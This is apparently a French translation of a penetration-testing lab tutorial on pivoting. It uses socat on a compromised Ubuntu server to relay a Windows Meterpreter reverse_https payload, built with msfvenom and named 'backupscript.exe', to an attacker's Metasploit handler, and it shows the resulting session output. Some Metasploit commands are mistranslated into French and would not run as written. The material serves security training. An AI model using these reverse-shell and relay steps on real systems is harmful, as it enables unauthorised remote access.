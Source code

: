 Redirection Socat avec un shell inversé
======================================

[Socat](https://linux.die.net/man/1/socat) est un outil de relais bidirectionnel qui peut créer des sockets de canal entre `2` canaux réseau indépendants sans avoir besoin d'utiliser le tunnel SSH. Il agit comme un redirecteur qui peut écouter sur un hôte et un port et transférer ces données vers une autre adresse IP et un autre port. Nous pouvons démarrer l'écouteur de Metasploit en utilisant la même commande mentionnée dans la dernière section sur notre hôte d'attaque, et nous pouvons démarrer `socat` sur le serveur Ubuntu.

#### Démarrage de l'écouteur Socat

Démarrage de l'écouteur Socat

```
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080, fork TCP4:10.10.14.18:80

```

Socat écoutera sur localhost sur le port `8080` et transférera tout le trafic vers le port `80` sur notre hôte d'attaque (10.10.14.18). Une fois notre redirecteur configuré, nous pouvons créer une charge utile qui se reconnectera à notre redirecteur, qui s'exécute sur notre serveur Ubuntu. Nous allons également démarrer un écouteur sur notre hôte d'attaque car dès que socat recevra une connexion d'une cible, il redirigera tout le trafic vers l'écouteur de notre hôte d'attaque, où nous obtiendrions un shell.

#### Création de la charge utile Windows

Création de la charge utile Windows

```
dsgsec@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] Aucune plate-forme n'a été sélectionnée, en choisissant Msf::Module::Platform::Windows à partir de la charge utile
[-] Aucune arche sélectionnée, sélection de l'arche : x64 à partir de la charge utile
Aucun encodeur spécifié, sortie de données utiles brutes
Taille de la charge utile : 743 octets
Taille finale du fichier exe : 7168 octets
Enregistré sous : backupscript.exe

```

Gardez à l'esprit que nous devons transférer cette charge utile à l'hôte Windows. Nous pouvons utiliser certaines des mêmes techniques utilisées dans les sections précédentes pour le faire.

#### Démarrage de la console MSF

Démarrage de la console MSF

```
dsgsec@htb[/htb]$ sudo msfconsole

<SNIP>

```

#### Configuration et démarrage du multi/handler

Configurer et démarrer le multi/handler

```
msf6 > use exploit/multi/handler

[*] Utilisation de la charge utile configurée generic/shell_reverse_tcp
msf6 exploit(multi/handler) > définir la charge utile windows/x64/meterpreter/reverse_https
charge utile => windows/x64/meterpreter/reverse_https
exploit msf6 (multi/gestionnaire)> définir lhost 0.0.0.0
lhost => 0.0.0.0
exploit msf6 (multi/gestionnaire)> définir lport 80
port => 80
exploit msf6 (multi/gestionnaire)> exécuter

[*] Démarrage du gestionnaire inverse HTTPS sur https://0.0.0.0:80

```

Nous pouvons tester cela en exécutant à nouveau notre charge utile sur l'hôte Windows, et nous devrions voir une connexion réseau à partir du serveur Ubuntu cette fois.

#### Établir la session Meterpreter

Établir la session Meterpreter

```
[!] https://0.0.0.0:80 demande de traitement de 10.129.202.64 ; (UUID : 8hwcvdrp) Sans une base de données connectée, le suivi UUID de la charge utile ne fonctionnera pas !
[*] https://0.0.0.0:80 demande de traitement du 10.129.202.64 ; (UUID : 8hwcvdrp) Charge utile intermédiaire x64 (201 308 octets)...
[!] https://0.0.0.0:80 demande de traitement de 10.129.202.64 ; (UUID : 8hwcvdrp) Sans une base de données connectée, le suivi UUID de la charge utile ne fonctionnera pas !
[*] Meterpreter session 1 ouverte (10.10.14.18:80 -> 127.0.0.1 ) au 2022-03-07 11:08:10 -0500

meterpreter > getuid
Nom d'utilisateur du serveur : INLANEFREIGHT\victor

```